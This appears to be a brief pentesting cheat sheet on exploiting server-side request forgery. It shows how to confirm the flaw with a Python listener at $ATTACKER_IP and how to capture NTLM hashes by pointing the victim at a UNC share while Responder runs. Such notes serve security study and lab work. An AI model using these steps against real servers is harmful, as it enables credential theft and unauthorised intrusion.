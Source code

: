 # What to look for
Webpages that allows user input to redirect to external URL's. Either a "URL" field in input, or maybe a GET or POST parameter...
# Test SSRF
## On attacker machine:
```bash
python3 -m http.server 80
```
## On victim webpage:
URL should redirect to the attacker IP:
```bash
http://$ATTACKER_IP
```
If python server gets a request, this attack is possible.
# Get hash with responder
## Step 1:
Set up responder:
```bash
sudo responder -I tun0
```
## Step 2:
Use SSRF to attempt smb connection:
```
\\$ATTACKER_IP\share
```
## Step 3:
View responder output for hash.
